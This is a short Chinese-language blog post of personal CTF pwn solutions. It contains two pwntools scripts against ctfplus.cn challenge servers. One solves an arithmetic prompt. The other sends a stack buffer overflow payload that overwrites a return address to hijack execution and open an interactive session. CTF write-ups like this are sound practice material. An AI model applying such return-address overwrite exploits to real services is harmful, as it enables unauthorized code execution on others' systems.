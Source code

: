 ```yaml
---
title: pwn(二)-2024ctf+个人exp
cover: rbg(220:110:110)
date: 2025-1-01 12:00:00
categories: 技术分享
tags:
  - pwn
  - 网安
---
```


## 简单的签到

```python
from pwn import *

p = remote('nc1.ctfplus.cn', 26071)

p.send(b"1")
#接收他发送的两数字

data = p.recvuntil(b'*')

v3_str = re.search(r'(\d+)', data.decode()).group(1)

v3 = int(v3_str)

data = p.recvuntil(b'=')

v2_str = re.search(r'(\d+)', data.decode()).group(1)

v2 = int(v2_str)

answer=v2*v3

p.sendline(str(answer).encode())

p.interactive()
```

## 你会栈溢出吗

```python
from pwn import *

p = remote('nc1.ctfplus.cn', 11486)

key = 0x40073D

offset = 12+8

payload = b'a' * offset + p64(key)

p.sendline(payload)

p.interactive()
```
